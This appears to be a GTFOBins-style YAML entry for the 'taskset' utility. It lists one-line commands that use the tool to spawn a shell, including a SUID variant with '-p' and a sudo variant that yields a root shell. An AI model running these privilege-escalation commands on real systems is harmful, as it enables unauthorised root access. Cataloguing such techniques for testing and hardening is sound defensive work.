 ```yaml
---
name: taskset
functions:
  shell:
    - code: taskset 1 /bin/sh
  suid:
    - code: ./taskset 1 /bin/sh -p
  sudo:
    - code: sudo taskset 1 /bin/sh
---
```

